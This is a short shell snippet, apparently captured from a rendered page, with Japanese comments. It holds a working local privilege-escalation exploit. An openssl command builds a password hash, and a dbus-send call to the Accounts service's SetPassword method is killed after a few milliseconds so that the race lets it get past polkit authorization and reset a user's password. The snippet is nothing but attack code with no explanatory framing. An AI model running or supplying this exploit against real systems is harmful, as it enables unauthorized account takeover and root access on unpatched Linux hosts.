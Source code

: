 ```sh
# パスワード生成
openssl passwd -6 Expl01ted

# 設定
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```
